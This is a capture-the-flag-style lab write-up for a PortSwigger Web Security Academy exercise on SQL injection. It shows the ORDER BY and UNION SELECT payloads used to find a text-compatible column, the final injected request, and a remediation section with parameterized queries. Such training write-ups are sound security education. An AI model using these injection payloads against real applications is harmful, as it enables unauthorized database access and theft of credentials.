




# Lab 08: SQL Injection UNION Attack, Finding a Column Containing Text

- **Platform:** PortSwigger Web Security Academy
- **Category:** SQL Injection (SQLi)
- **Difficulty:** Practitioner
- **OWASP Top 10:** A03:2021 – Injection
- **CWE:** CWE-89 (Improper Neutralization of Special Elements used in an SQL Command)
- **Author:** Yaseen Khan
- **Date:** November 23, 2026

---

## 1. Objective
Determine the number of columns returned by the product category query, identify which column position is compatible with string/text data, and inject the lab-provided random string (`J5Yk2B`) into the page response.

---

## 2. Reconnaissance & Column/Data-Type Enumeration
- **Target Endpoint:** `GET /filter?category=Gifts`
- **Vulnerable Parameter:** `category` (URL Query Parameter)

### Step-by-Step Enumeration
1. **Determine Column Count (`ORDER BY`):**
   - Tested `' ORDER by 3--` $\rightarrow$ returned **HTTP 200 OK**[cite: 23].
   - Tested `' ORDER by 4--` $\rightarrow$ returned **HTTP 500 Internal Server Error**.
   - **Result:** The original query returns **3 columns**.
2. **Identify String-Compatible Column (`UNION SELECT`):**
   - Replaced each `NULL` placeholder one position at a time with a test string (`'a'`):
     - `' UNION select 'a', NULL, NULL--` $\rightarrow$ HTTP 500 (incompatible data type).
     - `' UNION select NULL, 'a', NULL--` $\rightarrow$ **HTTP 200 OK**, confirming **column 2** accepts text data[cite: 24].

---

## 3. Exploitation & Proof of Concept (PoC)
Using the string-compatible 2nd column, we inject the lab-provided string (`J5Yk2B`) so it renders inside the HTTP response.

### Final Payload
```sql
' UNION select NULL, 'J5Yk2B', NULL--
```

## Modified HTTP Request (Burp Repeater)
```
GET /filter?category=Gifts' UNION select NULL, 'J5Yk2B', NULL-- HTTP/2
Host: 0a4600300300e4b8807917010084009d.web-security-academy.net
Cookie: session=[REDACTED]
```

## Proof of Exploitation Screenshots
1. Confirming 3 Columns (' ORDER by 3--):

2. Confirming Text Data Type in Column 2 (' UNION select NULL, 'a', NULL--):

3. Injecting Target String ('J5Yk2B'):

4. Lab Completion Banner:


## 4. Impact
Once an attacker identifies both the total column count and a string-compatible column rendered in the application's HTML response, they can exfiltrate arbitrary text data (such as database versions, table schemas, and user credentials) via UNION SELECT queries.

## 5. Remediation
Primary Fix (Parameterized Queries): Use prepared statements with bound parameters so user-supplied values in category cannot modify the structure of the SQL query:

```
// Secure Java JDBC Parameterized Query Example
String sql = "SELECT * FROM products WHERE category = ?";
PreparedStatement stmt = conn.prepareStatement(sql);
stmt.setString(1, category);
ResultSet rs = stmt.executeQuery();
```

Allowlist Validation: Restrict the category parameter to a predefined set of valid category names before querying the database.
